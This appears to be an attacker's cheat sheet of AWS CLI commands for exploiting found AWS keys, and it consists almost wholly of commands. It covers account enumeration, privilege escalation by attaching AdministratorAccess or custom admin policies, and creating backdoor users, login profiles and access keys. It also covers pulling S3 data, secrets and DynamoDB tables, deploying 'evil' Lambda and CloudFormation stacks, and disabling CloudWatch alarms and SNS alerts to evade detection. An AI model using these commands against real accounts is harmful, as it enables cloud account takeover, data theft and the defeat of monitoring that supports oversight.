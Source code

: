 So you found some aws keys...



## Caller id
who is me
```
aws sts get-caller-identity
```

## List, show stuff
```
aws ec2 describe-instances
aws s3 ls
aws s3api list-buckets
aws iam list-users
aws iam list-roles
aws iam list-groups-for-user --user-name user-example
aws iam list-group-policies --group-name Admins
...
```
## List (attached) policies
```
aws iam list-attached-role-policies --role-name ad-example
aws iam list-attached-user-policies --user-name user-example
aws iam list-user-policies --user-name user-example
```

## Get policies
There are managed policies and inline policies, see [here](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html).
Check especially for inline policies and everything custom, as these are likly candidates for excessive permissions and priv esc
```
aws iam get-policy --policy-arn ...
aws iam get-user-policy --user-name user-example --policy-name ...
aws iam get-policy-version --policy-arn ... --version-id v1
aws iam get-role-policy --role-name ... --policy-name ...
```

## Attach a policy
attach aws managed all admin policies
```
aws iam attach-user-policy --user-name user-example --policy-arn ...
aws iam attach-user-policy --user-name user-example --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam attach-group-policy --group-name developer --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

## Add policy
add custom policy .json to group, role (needs your own policy file obviously)
```
aws iam create-policy-version --policy-arn arn:aws:iam::666666666666:policy/Print --policy-document file:///.../newAdminPolicy.json --set-as-default
aws iam put-group-policy --group-name Admins --policy-document file:///.../newAdminPolicy.json --policy-name AdminRoot
aws iam put-role-policy --role-name developerlambda --policy-name AdminMeow --policy-document file:///.../newAdminPolicy.json      
```

## Role policy
```
aws iam list-role-policies --role-name admin
aws iam get-role-policy --role-name admin --policy-name AddUser
```

## Assume role
[Assuming direct control](https://www.youtube.com/watch?v=p3h8ZnXLsRg)
```
aws sts assume-role --role-arn arn:aws:iam::666666666666:role/ad-example --role-session-name ad-example
```
This is my favorite cheetsheet on the whole citadel

## Search for adminstuff
```
aws iam list-policies | grep 'AdministratorAccess'  
```

## Add user to group, create user, change login
```
aws iam add-user-to-group --group-name developer --user-name kevin
aws iam create-login-profile --user-name mandy --password compliance123! --no-password-reset-required
aws iam create-user --user-name backdoorbeaver
aws iam create-access-key --user-name Bob
```

## EC2, list, deploy, secu group

```
aws ec2 describe-subnets
aws ec2 describe-security-groups
aws iam list-instance-profiles

aws ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-*-x86_64-gp2' 'Name=state,Values=available' --output json | jq -r '.Images | sort_by(.CreationDate) | last(.[]).ImageId'

aws ec2 run-instances --subnet-id subnet-.... --image-id ami-... --iam-instance-profile Name=ec2_admin --instance-type t2.micro --security-group-ids "sg-..."
aws ec2 authorize-security-group-ingress --group-id ... --protocol tcp --port 22 --cidr 0.0.0.0
```


## EC2 key gen
```
aws ec2 create-key-pair --key-name nyankey --query 'KeyMaterial' --output text | out-file -encoding ascii -filepath nyankey.pem
chmod 400 mighty.pem
```

## Dynamodb
```
aws dynamodb list-tables | jq -r .TableNames[]
aws dynamodb scan --table-name secrettable-233223 --region us-east-1
```

## Secret
```
aws secretsmanager get-secret-value --secret-id ...--region
```

## S3
list buckets, get objects, acl and policy
```
aws s3 ls
aws s3api list-buckets
aws s3 sync s3://user-resources-12jljlaj3434ljalsjf/ ./
aws s3api list-objects --bucket ...
aws s3 --no-sign-request --region ap-southeast-1 ls s3://static-resources-example
aws s3api get-bucket-policy --bucket ... --output text | python -m json.tool
aws s3api get-bucket-acl --bucket ... > acl.json
aws s3api get-object-acl --bucket ... --key secret_object > object.json

```
## S3 add policy, acl
add your own policy or acl file to bucket/object
```
aws s3api put-bucket-policy --bucket ... --policy file://policy.json
aws s3api put-object-acl --bucket ... --key secret_object --access-control-policy file://object.json
aws s3api put-bucket-acl --bucket --access-control-policy file://acl.json
```

## API-Gateway
list, show rest-api, ressources method and key
```
aws apigateway get-account
aws apigateway get-rest-apis
aws apigateway get-api-keys
aws apigateway get-api-key --api-key ... --include-value
aws apigateway get-ressources --rest-api-id ...
aws apigateway get-method --rest-api-id ... --http-method GET --ressource-id ...
```

## Lambda
```
aws lambda list-functions
aws lambda get-function --function-name DynamoFunction  
aws lambda get-policy --function-name pawsitivty
```

## Lambda deploy own
Create your own evil lambda function and invoke, check [here](https://docs.aws.amazon.com/lambda/latest/dg/gettingstarted-awscli.html) for how to
```
aws lambda create-function --function-name Ishimura --zip-file fileb://Ishimura.zip --handler index.handler --runtime nodejs18.x --role arn:aws:iam::666666666666:role/lambda-ex
aws lambda invoke --function-name Ishimura marker.txt
```

## Cloudformation
```
aws cloudformation list-stack-resources --stack-name weatherman
aws cloudformation describe-stack-events --stack-name intensification90
aws cloudformation get-template --stack-name stackmanfred

```
## Cloudformation deploy
```
aws cloudformation validate-template --template-body file://evil.yaml
aws cloudformation create-stack --template-body file://evil.yaml --stack-name stolenstack --parameters ParameterKey=uri,ParameterValue=$uri --output text
aws cloudformation describe-stacks --stack-name stolenstack  --query Stacks[*].Outputs --output text
aws cloudformation delete-stack --stack-name stolenstack --output text
```

## Wiuuu Wiuuu cloudwatch, sns
If there are alarms monitoring in cloudwatch, sns and you have permissions, identify and if needed deactivate them. 
```
aws cloudwatch describe-alarms --alarm-names "soundofdapolice"
aws sns list-topics
aws sns list-subscriptions
```
## Less Wiuu Wiuu
```
aws cloudwatch disable-alarm-actions --alarm-names soundofdapolice
aws cloudwatch describe-alarm-history --alarm-name "iamshadow" --history-item-type StateUpdate
aws sns unsubscribe --subscription-arn arn:aws:sns:us-west-2:666666666666:my-topic:somerandomstring
```

